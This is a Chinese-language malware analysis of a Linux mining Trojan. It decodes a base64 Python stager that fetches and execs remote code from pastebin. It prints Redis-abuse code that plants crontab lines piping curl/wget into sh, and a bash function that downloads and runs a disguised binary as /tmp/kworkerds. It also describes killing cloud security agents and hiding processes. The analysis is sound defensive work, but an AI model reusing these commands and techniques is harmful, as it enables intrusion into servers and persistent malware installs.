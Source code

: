 base64 的 python 代码解码后内容为：
```
$ python
Python 3.5.0 (v3.5.0:374f501f4567, Sep 12 2015, 11:00:19)
[GCC 4.2.1 (Apple Inc. build 5666) (dot 3)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> base64.b64decode('I2NvZGluZzogdXRmLTgKaW1wb3J0IHVybGxpYgppbXBvcnQgYmFzZTY0CgpkPSAnaHR0cHM6Ly9wYXN0ZWJpbi5jb20vcmF3L2VSa3JTUWZFJwp0cnk6CiAgICBwYWdlPWJhc2U2NC5iNjRkZWNvZGUodXJsbGliLnVybG9wZW4oZCkucmVhZCgpKQogICAgZXhlYyhwYWdlKQpleGNlcHQ6CiAgICBwYXNz')
b"#coding: utf-8\nimport urllib\nimport base64\n\nd= 'https://pastebin.com/raw/eRkrSQfE'\ntry:\n    page=base64.b64decode(urllib.urlopen(d).read())\n    exec(page)\nexcept:\n    pass"
```

解码后的 python 代码又从```https://pastebin.com/raw/eRkrSQfE```读取内容，进行执行。

再次解码后，内容为针对 redis 的攻击脚本，核心代码如下：
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(2)
s.connect((self.host, 6379))
s.send('set backup1 "\n\n\n*/1 * * * * curl -fsSL https://pastebin.com/raw/xbY7p5Tb|sh\n\n\n"rn')
s.send('set backup2 "\n\n\n*/1 * * * * wget -q -O- https://pastebin.com/raw/xbY7p5Tb|sh\n\n\n"rn')
s.send('config set dir /var/spool/cronrn')
s.send('config set dbfilename rootrn')
s.send('savern')
s.close()
```

接着，kills 函数主要是 kill 掉其他木马以及腾讯云、阿里云等安全监控服务。

downloadrun 函数是下载木马 kworkerds 脚本并执行。
```
function downloadrun() {
	ps=$(netstat -anp | grep :13531 | wc -l)
	if [ ${ps} -eq 0 ];then
		if [ ! -f "/tmp/kworkerds" ]; then
			curl -fsSL http://thyrsi.com/t6/358/1534495127x-1404764247.jpg -o /tmp/kworkerds && chmod 777 /tmp/kworkerds
			if [ ! -f "/tmp/kworkerds" ]; then
				wget http://thyrsi.com/t6/358/1534495127x-1404764247.jpg -O /tmp/kworkerds && chmod 777 /tmp/kworkerds
			fi
				nohup /tmp/kworkerds >/dev/null 2>&1 &
		else
			nohup /tmp/kworkerds >/dev/null 2>&1 &
		fi
	fi
}
```

接着执行 echocron 函数，写入定时任务，并清楚相关日志。

之后执行 system 和 top 函数，下载相关依赖文件，隐藏进程等。
